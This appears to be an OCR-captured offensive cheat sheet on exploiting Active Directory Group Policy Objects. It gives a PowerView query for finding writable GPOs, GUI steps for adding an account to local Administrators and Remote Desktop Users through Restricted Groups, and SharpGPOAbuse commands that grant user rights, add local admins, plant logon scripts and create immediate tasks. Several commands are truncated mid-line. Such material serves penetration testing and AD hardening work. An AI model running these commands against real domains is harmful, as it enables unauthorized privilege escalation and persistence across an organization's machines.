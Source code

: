 # Group Policy Objects (GPO) Exploitation

## Tools: Bloodhound, PowerGPOAbuse, SharpGPOAbuse, pyGPOAbuse, Powerview, StandIn

## Location stored: SYSVOL directory

### Creators of a GPO are automatically granted explicit Edit settings, delete, modify security, which manifests as CreateChild, DeleteChild, Self, WriteProperty, DeleteTree, Delete, GenericRead, WriteDacl, WriteOwner

### GPO Prioritization: Organization Unit > Domain > Site > Local

### GPO are stored in the DC in \\<domain.dns>\SYSVOL\<domain.dns>\Policies\<GPOName>\ , inside two folders User and Machine. If you have the right to edit the GPO you can connect to the DC and replace the files. Planned Tasks are located at Machine\Preferences\ScheduledTasks .

### Domain members refresh group policy settings every 90 minutes with a random offset of 0 to 30 minutes but it can locally be forced with the following command: gpupdate /force .

## Finding vulnerable GPO

### Look a GPLink where you have the Write right.

 - Get-DomainObjectAcl -Identity "SuperSecureGPO" -ResolveGUIDs | Where-Object {($_.ActiveDi

#### 1) runas /netonly /user:DOMAIN\AD_USERNAME cmd.exe

#### 2) dir \\DOMAIN\sysvol

#### 3) mmc

#### 4) File -> Add/Remove Snap-in

#### 5) Group Policy Management then click Add

#### 6) OK

#### 7) Navigate to GPO our user has permission to modify

#### 8) Right-click on GPO and select edit

### Add our account to local groups 

#### 1) Expand Computer Configuration 

#### 2) Expand Policies

#### 3) Expand Windows Settings

#### 4) Expand Security Settings

#### 5) Right-click on Restricted Groups and select Add Group

#### 6) Click browse, enter IT Support (example) and click Check Names

#### 7) Click OK twice

#### 8) On second filter, add Administrators and Remote Desktop Users groups

#### 9) Apply and OK then WAIT FOR 15 MINUTES FOR THE GPO TO BE APPLIED

## SharpGPOAbuse https://github.com/FSecureLABS/SharpGPOAbuse

#### 1) Build and configure SharpGPOAbuse

 - Install-Package CommandLineParser -Version 1.9.3.15

 - $ ILMerge.exe /out:C:\SharpGPOAbuse.exe C:\Release\SharpGPOAbuse.exe C:\Release\CommandLine.

####  2) Adding User Rights

 - .\SharpGPOAbuse.exe --AddUserRights --UserRights "SeTakeOwnershipPrivilege,SeRemoteInteractiveLogonRight"

#### 3) Adding a Local Admin

 - .\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount bob.smith --GPOName "Vulnerable GPO"

#### 4) Configuring a User or Computer Logon script

 - .\SharpGPOAbuse.exe --AddUserScript --ScriptName StartupScript.bat --ScriptContents

#### 5) Configuring a Computer or User Immediate Task

### /!\ Intended to "run once" per GPO refresh, not run once per system

 - .\SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author DOMAIN\Admin --Command

 - .\SharpGPOAbuse.exe --AddComputerTask --GPOName "VULNERABLE_GPO" --Author 'LAB.LOCAL\
